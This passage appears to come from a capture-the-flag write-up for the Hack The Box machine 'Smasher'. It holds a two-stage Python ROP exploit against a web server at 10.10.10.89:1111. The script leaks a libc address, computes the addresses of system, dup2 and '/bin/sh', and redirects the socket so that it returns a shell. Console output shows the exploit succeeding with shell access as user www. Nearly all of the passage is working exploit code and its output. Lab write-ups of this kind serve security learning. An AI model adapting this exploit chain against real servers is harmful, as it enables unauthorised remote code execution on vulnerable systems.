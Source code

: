 ```python
payload_stage1 += poprdi + p64(fd)
payload_stage1 += poprsi + p64(0x603088) + junk
payload_stage1 += plt_write

r.send('GET /%s\n\n' % urllib.quote(payload_stage1))
buf = r.recv().split('File not found')[1][0:8]
read_addr = u64(buf)
libc_base = read_addr - 0xf7250    # https://libc.blukat.me/?q=_rtld_global%3A0&l=libc6_2.23-0ubuntu10_amd64
system_addr = libc_base + 0x45390
str_bin_sh = libc_base + 0x18cd57
dup2 = libc_base + 0xf7970

log.info('libc base address is: %s' % hex(libc_base))
log.info('read address is : %s' % hex(read_addr))
log.info('system address is: %s' % hex(system_addr))
log.info('dup2 address is: %s' % hex(dup2))
log.info('/bin/sh address is: %s' % hex(str_bin_sh))

r2 = remote('10.10.10.89', 1111)
payload_stage2 = ''
payload_stage2 += 'A' * offset
payload_stage2 += poprdi + p64(fd)
payload_stage2 += poprsi + p64(0x0) + junk
payload_stage2 += p64(dup2)
payload_stage2 += poprdi + p64(fd)
payload_stage2 += poprsi + p64(0x1) + junk
payload_stage2 += p64(dup2)
payload_stage2 += poprdi + p64(str_bin_sh)
payload_stage2 += p64(system_addr)

r2.send('GET /%s\n\n' % urllib.quote(payload_stage2))
r2.recvuntil('File not found')
r2.interactive()
```

The exploit in action:

```
root@kali:~/hackthebox/Machines/Smasher# python exploit.py 
[+] Opening connection to 10.10.10.89 on port 1111: Done
[*] libc base address is: 0x7f561f10e000
[*] read address is : 0x7f561f205250
[*] system address is: 0x7f561f153390
[*] dup2 address is: 0x7f561f205970
[*] /bin/sh address is: 0x7f561f29ad57
[+] Opening connection to 10.10.10.89 on port 1111: Done
[*] Switching to interactive mode
$ id
uid=1000(www) gid=1000(www) groups=1000(www)
```
